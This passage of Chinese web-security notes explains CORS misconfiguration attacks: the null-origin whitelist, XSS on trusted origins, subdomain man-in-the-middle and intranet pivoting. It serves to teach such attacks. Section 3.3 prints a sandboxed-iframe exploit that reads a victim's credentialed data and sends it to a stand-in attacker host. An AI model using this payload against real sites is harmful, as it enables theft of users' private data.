 ### 3.3 白名单只有 `null` 的情况

1. 首先，浏览器在以下情况时，发送的 HTTP 包中 `Origin` 的值为 `null`：

    1. 跨源的重定向
    2. 来自序列化后数据的请求
    3. 使用 `file` 协议的请求，这也是一般服务端白名单设置为 `null` 的原因，以方便目标页面和本地文件进行数据交互。
    4. 沙箱内的跨源请求

2. 情况的定位一般就是客户端发 `Origin: null`，此时服务端就会返回 `ACAO: null`，`Origin` 为其他的值时没有返回。

3. 一般常见的类型就是使用沙箱来发起跨域请求。相关的知识点可以见：

    > https://www.bookstack.cn/read/html-tutorial/spilt.2.docs-iframe.md

    因此，攻击端构造的脚本页面如下：
    ```html
    <iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','vulnerable-website.com/sensitive-victim-data',true);
    req.withCredentials = true;
    req.send();
    
    function reqListener() {
    location='malicious-website.com/log?key='+this.responseText;
    };
    </script>"></iframe>
    ```

### 3.4 通过 CORS 信任的站来进行 XSS

1. 即使两个源站之间可能正确配置了 CORS 关系，但是如果其中的一个站有 XSS 漏洞，那么攻击者可以通过 XSS 写入 JS。该 JS 再通过 CORS 来获取敏感信息。
2. 例如站点 A 和 B 相互信任，但是 A 存在 XSS 漏洞，那么就可以利用 A 的 XSS 漏洞：
    `https://A.com/?xss=<script>cors-stuff-here</script>` 来获取 B 站点的信息。

### 3.5 通过配置不当的 CORS 突破 TLS 以获取数据（这个实现的复杂度太高）

1. 如果一个网站他的主域名严格的配置 HTTPS，但是他的子域名（在白名单）却使用 HTTP 时，这时可能就有漏洞。
2. 这种攻击的实质是中间人攻击，具体过程大概如下：
    1. 客户端发起 HTTP 请求。
    2. 攻击者注入攻击，使其重定向到服务器的子域名，这里假设为：`http://trusted-subdomain.vulnerable-website.com`。
    3. 客户端跟着重定向去访问。
    4. 攻击者再拦截重定向包，然后欺骗客户端发起 CORS 请求以访问服务端主域名：`https://vulnerable-website.com`。
    5. 这时 CORS 的 `Origin` 就是 `http://trusted-subdomain.vulnerable-website.com`。
    6. 结果服务端返回包的内容可以到攻击者的诱导页面上。

### 3.6 没有 credentials 的内网 CORS

1. 大多数危害性较大的 CORS 都需要返回头含：
    `Access-Control-Allow-Credentials: true`。
2. 没有该头部的话，CORS 能返回的数据也都是没有权限或者和权限无关的数据，该数据大多不太敏感。
3. 然而，有一种常见的情况是，存在 CORS 问题的网站是内网网站。内网中的网站往往安全防护等级不高，攻击者可以进一步利用。
4. 例如有的内网网站的 `ACAO` 可能就为 `*` 且不需要 credentials，如果一个内网的用户在 CORS 攻击下（公网）访问服务器（也是公网），那么可以以这个用户为跳板，从而访问内网资源。
